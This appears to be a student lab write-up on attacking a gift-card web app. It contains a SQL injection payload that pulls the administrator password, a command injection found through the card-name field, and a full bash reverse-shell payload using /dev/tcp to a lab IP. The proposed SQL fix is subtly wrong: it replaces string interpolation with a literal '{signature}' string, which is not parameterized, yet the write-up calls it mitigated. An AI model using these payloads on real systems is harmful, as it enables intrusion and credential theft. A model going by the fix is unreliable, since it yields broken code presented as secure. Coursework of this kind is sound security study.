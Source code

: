 ```
{"merchant_id": "NYU Apparel Card", "customer_id": "johnbg", "total_value": "10", "records": [{"record_type": "amount_change", "amount_added": 2000, "signature": "'UNION SELECT password FROM Legacysite_user WHERE username='administrator' --"}]}
```
For building our script to detect the vulnerability we follow a similar approach to the previous scanning algorithms
we login, configure the cookie data, send a post payload, scan server output for a substring indicating SQLi. This time we need to upload a file, set a field to true, and fill in a card name.

The script successfully detects the vulnerability. 


<img width="1145" alt="Screen Shot 2022-03-21 at 1 46 08 AM" src="https://user-images.githubusercontent.com/72175659/159211241-36cb6532-6027-4e94-b4e1-324389019c5f.png">

To fix the vulnerability we examine the vulnerable card_query variable in views.py:
```
#card_query = Card.objects.raw('select id from LegacySite_card where data = \'%s\'' % signature)

```
This makes it so that the signature field is dynamically apended to the hard coded query instead of parametized

we employ the following fix 

```
card_query = Card.objects.raw("SELECT id FROM LegacySite_card WHERE data = '{signature}'")
```
running the sqli detector again shows the vulnerabilty has been mitigated

<img width="1136" alt="Screen Shot 2022-03-21 at 2 10 40 AM" src="https://user-images.githubusercontent.com/72175659/159389697-285ec326-5785-4955-9955-0ca6b6ef3e2f.png">

# Command injection 

We are given a faulty JSON structure is not parsed well and can result in a command injection vulnerability. We buy a new gift card and jumble the input.

<img width="1143" alt="Screen Shot 2022-03-21 at 11 07 32 PM" src="https://user-images.githubusercontent.com/72175659/159404081-e699b055-475e-40e7-baaf-9797af433b71.png">

on the useCard.html site we see there is an alterante field for naming your card. We will try to feed ```;ls -l;``` command here.

<img width="1136" alt="Screen Shot 2022-03-22 at 12 03 23 AM" src="https://user-images.githubusercontent.com/72175659/159405706-17c4f9f5-7a4d-4102-83d8-cd54f2d9e56c.png">

We succeed in injecting a command.

As a proof of concept exploit we use our malicious giftcard file and run the following command in the card name field ```;bash -c "/bin/bash -i > /dev/tcp/10.0.2.15/9090 0<&1 2>&1" ;```
This works becuase -c will execute any command in between the quotes. The command in quotes is based on Lab1  to invoke a reverse shell. 

<img width="1140" alt="Screen Shot 2022-03-22 at 1 53 21 AM" src="https://user-images.githubusercontent.com/72175659/159598757-92d16922-8f54-4a11-b33b-f35ede9d772a.png">

For our python script that detects the vulnerability we need to send an echo instead of a shell so we can use the command ```; bash -c "bash -c " echo -n pwned > /dev/tcp/0.0.0.0/8888 0<&1 2>&1" ;```. This sends "pwned" to our listener which then detects the vulnerability through an if statement. 
